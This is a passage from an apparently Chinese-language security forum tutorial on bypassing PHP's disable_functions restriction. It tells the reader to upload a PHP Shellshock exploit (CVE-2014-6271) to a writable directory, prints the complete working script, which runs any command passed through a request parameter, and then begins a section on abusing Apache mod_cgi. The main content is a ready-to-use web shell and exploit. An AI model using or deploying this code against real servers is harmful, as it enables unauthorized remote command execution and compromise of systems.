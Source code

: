 ![image-20210210122538026](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b3328c2bd78ef687a91e3a5e95ad326247069878.png)

也可以选择手动利用。在有权限的目录中（/var/tmp/exploit.php）上传以下利用脚本：

```php
<?php 
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions) 
# Google Dork: none 
# Date: 10/31/2014 
# Exploit Author: Ryan King (Starfall) 
# Vendor Homepage: http://php.net 
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror 
# Version: 5.* (tested on 5.6.2) 
# Tested on: Debian 7 and CentOS 5 and 6 
# CVE: CVE-2014-6271 

function shellshock($cmd) { // Execute a command via CVE-2014-6271 @mail.c:283 
   $tmp = tempnam(".","data"); 
   putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1"); 
   // In Safe Mode, the user may only alter environment variableswhose names 
   // begin with the prefixes supplied by this directive. 
   // By default, users will only be able to set environment variablesthat 
   // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive isempty, 
   // PHP will let the user modify ANY environment variable! 
   //mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actuallysend any mail 
   error_log('a',1);
   $output = @file_get_contents($tmp); 
   @unlink($tmp); 
   if($output != "") return $output; 
   else return "No output, or not vuln."; 
} 
echo shellshock($_REQUEST["cmd"]); 
?>
```

![image-20210210122804478](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e49c664d970a691b0a32554a08e24a34cba729cc.png)

然后包含该脚本并传参执行命令即可：

![image-20210210122920489](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cea319314860ec695a4aab7c823ba14569845c5a.png)

如上图，成功执行命令。

利用 Apache Mod CGI
-----------------

**使用条件：**

- Linux 操作系统
- Apache + PHP (apache 使用 apache\_mod\_php)
- Apache 开启了 `cgi`、`rewrite`
- Web 目录给了 `AllowOverride` 权限
- 当前目录可写

